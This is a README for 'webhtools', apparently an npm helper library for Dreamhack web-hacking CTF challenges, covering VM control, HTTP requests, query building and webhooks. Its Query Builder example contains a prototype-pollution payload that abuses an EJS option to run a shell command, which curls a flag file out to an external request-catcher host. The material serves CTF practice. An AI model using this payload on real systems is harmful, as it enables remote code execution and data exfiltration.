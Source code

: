 ## Webhtools
This is set of useful tool for webhacking. Includes request helper, dreamhack helper etc.

### Installation
```shell
npm install webhtools
```

### Usage
#### Dreamhack Problem Tools
```typescript
import {ProblemHelper} from "webhtools";

async function run() {
  // const ph = await new ProblemHelper(<problemId>).init();
  const ph = await new ProblemHelper(927);

  await ph.openVM();
  // exploit
  console.log(ph.getURL());
  await ph.closeVM();
}

run();
```
At first time, you need to enter your dreamhack account info.

#### Request Helper

```typescript
import {RequestHelper, ProblemHelper} from "webhtools";

// const ph = await new ProblemHelper(927)
//
// const rh = new RequestHelper(await ph.openVM());

// this works well.
const rh = await RequestHelper.from(927);
rh.setContentType("application/json");
rh.setBearerAuth(tokenRes.json.token);
const res = await rh.get("/");
console.log(res.ok);
console.log(res.status);
console.log(res.bytes);
console.log(res.text);
console.log(res.json);
console.log(res.formData);

// in fact, you don't need to close vm. it will close automatically
// await ph.closeVM();
```

#### Query Builder
```js
import { RequestHelper, QueryBuilder } from "webhtools";

const client = new RequestHelper("http://localhost:3000");

const data = {
  key: "__proto__",
  value: {
    "settings": {
      "view options": {
        "outputFunctionName": "x;process.mainModule.require('child_process').execSync(\"curl --data $(cat ./flag) 'https://cghilzr.request.dreamhack.games'\");s"
      }
    }
  }
}
await client.get('/?'+new QueryBuilder(data));
console.log(new QueryBuilder(data))₩
```

### webhook
```typescript
const webhook = new Webhook(8000);
const url = await webhook.publish();

return await new Promise((resolve) => {
  webhook.set("/test", (req) => {
    webhook.disconnect();
    resolve(req.body.toString());
  })

  fetch(`${url}/test`, { method: "POST", body: "hello" });
})
```